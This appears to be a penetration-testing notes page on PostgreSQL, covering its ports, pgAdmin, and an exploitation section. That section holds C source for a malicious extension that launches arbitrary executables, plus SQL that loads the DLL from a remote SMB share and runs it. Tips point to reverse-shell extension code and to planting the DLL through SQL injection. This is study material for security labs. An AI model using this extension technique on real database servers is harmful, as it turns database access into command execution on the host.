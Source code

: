 ```yaml
---
Ports: 5432/5433
Description: PostgreSQL, also known as Postgres, is a free and open-source relational database management system emphasizing extensibility and SQL compliance.
---
```


>[!info]
> PostgreSQL, also known as Postgres, is a free and open-source relational database management system emphasizing extensibility and SQL compliance.


# Basic Usage

## pgAdmin

[pgAdmin](https://www.pgadmin.org/) is the most popular and feature rich Open Source administration and development platform for PostgreSQL, the most advanced Open Source database in the world.

![](../../zzz_res/attachments/pgAdmin.png)

---

# Exploitation

## [SQL Injection](../Web%20&%20Network%20Hacking/SQL%20Injection.md)

## Build a custom PostgreSQL extension

Microsoft Visual Studio code:
```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);
/* this function launches the executable passed in as the first parameter in a FOR loop bound by the second parameter that is also passed*/
Datum
awae(PG_FUNCTION_ARGS)
{
	/* convert text pointer to C string */
	#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout,
	PointerGetDatum(textp)))
	/* retrieve the second argument that is passed to the function (an integer) that will serve as our counter limit*/
	int instances = PG_GETARG_INT32(1);
	for (int c = 0; c < instances; c++) {
	/*launch the process passed in the first parameter*/
	ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}

// Test is on PostgreSQL
// create or replace function local(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
// create or replace function remote(text, integer) returns void as $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
// SELECT local($$calc.exe$$, 3);
// DROP FUNCTION local(text, integer);
// > del c:\awae.dll
```

>[!tip] Tip and tricks
>- Reverse shell extension code can be found in [UDF Postgres](../Web%20&%20Network%20Hacking/Shell%20Cheatsheet.md#UDF%20Postgres) 
>- If you can't download the DLL from anywhere and you need to directly create it using the SQL Injection, use PostgreSQL [Large Objects](https://www.postgresql.org/docs/9.2/largeobjects.html) mentioned in [Reading & Writing files](../Web%20&%20Network%20Hacking/SQL%20Injection.md#Reading%20&%20Writing%20files)



---

# Misc

## Enable database logging (for researching SQL Injection vuln.)

```
$ edit postgresql.conf
...
log_statement = 'all' # none, ddl, mod, all
...
```

>Remember to restart the service. 

Log files for failed query can be found inside `pgsql_log\` 